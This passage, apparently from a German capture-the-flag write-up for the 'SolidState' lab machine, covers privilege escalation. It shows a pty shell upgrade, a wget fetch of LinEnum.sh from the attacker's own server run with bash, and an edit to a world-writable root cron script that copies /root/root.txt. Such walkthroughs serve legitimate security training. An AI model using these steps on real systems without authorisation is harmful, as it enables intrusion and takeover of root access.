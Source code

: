 ```shell
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

Mit Hilfe von **wget** können wir [LinEnum.sh](https://github.com/rebootuser/LinEnum) downloaden (nachdem wir bei uns den Apache2 Server durch **service apache2 start** gestartet und die Datei in den Ordner **/var/www/html/** kopiert haben) und ausführen, welches uns die Enumeration und Privilege Escalation Checks abnimmt.

```shell
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ wget 10.10.15.222/LinEnum.sh

${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ bash LinEnum.sh -t
[...]
World-writable files (excluding /proc):
-rwxrwxrwx 1 root root 91 Jan 21 18:34 /opt/tmp.py
[...]
```

Das Script hat eine Datei gefunden, welche dem User und der Gruppe **root** gehört, aber für jeden schreib-, lese- und ausführbar ist.

Sehen wir uns doch mal an, was sich in dem Python-Script steht.

```shell
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ vi /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     
sys.exit()
```

Wir können nun die 5\. Zeile etwas abändern...

```shell
os.system('cat /root/root.txt > /tmp/m10x.txt')
```

Wenn wir nun ein wenig warten, wird **tmp.py** ausgeführt und unter **/tmp/m10x.txt** können wir dann den Root-Hash finden. Anscheinend ist **/opt/tmp.py** ein Cron-Job!

```shell
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls /tmp/
m10x.txt
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cat /tmp/m10x.txt
b4c#########ZENSIERT#########7c9
```

Der User-Hash befindet sich unter **/home/mindy/user.txt**.

Vielen Dank für's durchlesen. :D